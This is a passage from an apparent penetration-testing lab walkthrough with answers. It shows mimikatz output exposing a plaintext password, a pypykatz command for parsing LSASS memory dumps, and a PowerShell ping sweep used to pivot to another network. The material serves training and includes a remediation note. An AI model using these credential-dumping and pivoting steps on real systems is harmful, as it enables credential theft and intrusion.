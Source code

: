 ```
         * Password : (null)
        kerberos :
         * Username : vfrank
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Imply wet Unmasked!
        ssp :
        credman :
```

**Analysis:**
- User `vfrank` has plaintext password stored in Kerberos section
- Password: `Imply wet Unmasked!`
- This indicates poor service account management practices

**Answer:** `vfrank`

#### Alternative Method: Using Task Manager Memory Dump
If mimikatz fails to run:
1. Create dump as described above
2. Transfer dump file back to Kali
3. Use pypykatz or other LSASS analysis tools:
```bash
pypykatz lsa minidump lsass.DMP
```

#### Security Implications
- **Service Account Misuse:** User account likely used for service authentication
- **Credential Exposure:** Plaintext passwords stored in LSASS memory
- **Attack Path:** Credentials can be used for lateral movement
- **Remediation:** Use managed service accounts (MSA/gMSA) instead of user accounts

---

#### Question 6: Pivot to another network using discovered credentials
**Task:** For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.

### Solution: Network Enumeration & RDP Pivot

#### Step 1: Network Enumeration from Windows Host
Using the existing RDP session to 172.16.5.35, enumerate the next network segment:

**PowerShell Ping Sweep:**
```powershell
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

**Expected Output:**
```
172.16.6.1: False
172.16.6.2: False
...
172.16.6.23: False
172.16.6.24: False
172.16.6.25: True
172.16.6.26: False
...
```
